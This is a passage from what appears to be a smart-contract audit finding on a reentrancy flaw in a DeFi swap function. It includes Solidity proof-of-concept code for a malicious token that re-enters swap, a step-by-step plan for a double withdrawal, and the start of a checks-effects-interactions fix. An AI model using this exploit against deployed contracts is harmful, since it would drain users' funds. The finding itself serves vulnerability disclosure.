 ```solidity
    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        // Only perform the exploit during specific transfers
        if (exploitActive && from == attacker && to == target) {
            exploitActive = false; // Prevent recursive exploitation

            // Call back into the vulnerable contract with a legitimate swap
            // Note: We're swapping to a different token to avoid any checks that
            // might prevent swapping a token to itself
            SwapFacet(target).swap(
                attacker,               // recipient (attacker gets the tokens)
                address(this),          // inToken (the malicious token)
                legitimateToken,        // outToken (a legitimate token to receive)
                int256(exploitAmount),  // amountSpecified (exact input amount)
                0,                      // amountLimit (no slippage protection for simplicity)
                0                       // _cid (closure ID, using 0 for simplicity)
            );

            exploitActive = true;
        }

        return super.transferFrom(from, to, amount);
    }
}
```

The attack would proceed as follows:

1. Attacker deploys the malicious token
2. Attacker calls `swap` with the malicious token as the input token
3. During the `TransferHelper.safeTransferFrom` call, the malicious token's `transferFrom` function is called
4. The malicious token calls back into the `swap` function before the first swap completes
5. The second swap executes with the same state as the first swap - critically, it reuses the same inVid and outVid values (which represent the input/output token vaults) while their balances have not been updated yet
6. Both swaps complete, but the attacker only pays for one swap
7. The result is a double withdrawal from the same deposit, as the vertex balances are only updated after both transfers have been initiated

## Recommended Mitigation
There are three effective approaches to fix this vulnerability:

### Option 1: Implement the checks-effects-interactions pattern
This is the most robust solution and follows best practices:

```solidity
function swap(
    address recipient,
    address inToken,
    address outToken,
    int256 amountSpecified,
    uint256 amountLimit,
    uint16 _cid
) external nonReentrant returns (uint256 inAmount, uint256 outAmount) {
    // ... existing code ...

    if (inAmount > 0) {
        // 1. First update all internal state
        c.addEarnings(inVid, realTax);
        Store.vertex(inVid).deposit(cid, inAmount - realTax);
        Store.vertex(outVid).withdraw(cid, outAmount, true);
        require(outAmount > 0, VacuousSwap());
```